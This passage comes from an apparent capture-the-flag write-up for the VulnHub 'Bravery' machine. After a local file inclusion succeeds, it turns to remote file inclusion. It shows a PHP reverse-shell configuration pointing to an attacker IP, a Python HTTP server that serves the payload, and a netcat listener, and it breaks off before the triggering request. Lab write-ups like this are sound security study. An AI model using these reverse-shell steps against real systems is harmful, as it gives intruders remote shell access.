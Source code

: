 ![lfi](/img/posts/vulnhub-bravery/lfi.png)

LFI is a success :) Let's try Remote File Inclusion. I prefer to use a simple php-reverse-shell from Pentest Monkey. You can find it down in the Sources. So the whole point of this is for the webserver to query our web server for a certain file (in this case a malicious one) and execute it. This is a critical vulnerability and should serve as a note to all future developers out there to be more careful and implement secure coding practices. Let's just edit out the reverse shell and put our IP and port in there.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.2.128';
$port = 80;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

After this let's host our server on port 445. Let's use a python server :

```bash
┌──(p4r490n@parrot)-[~/Documents/Vulnhub/Bravery/exploits]
└─$ ls
php-reverse-shell.php
──(p4r490n@parrot)-[~/Documents/Vulnhub/Bravery/exploits]
└─$ sudo python3 -m http.server 445
```

Now, let's set up a netcat listener on port 80: 

```bash
┌──(p4r490n@parrot)-[~]
└─$ sudo nc -nlvp 80
```
Now to access the URL :
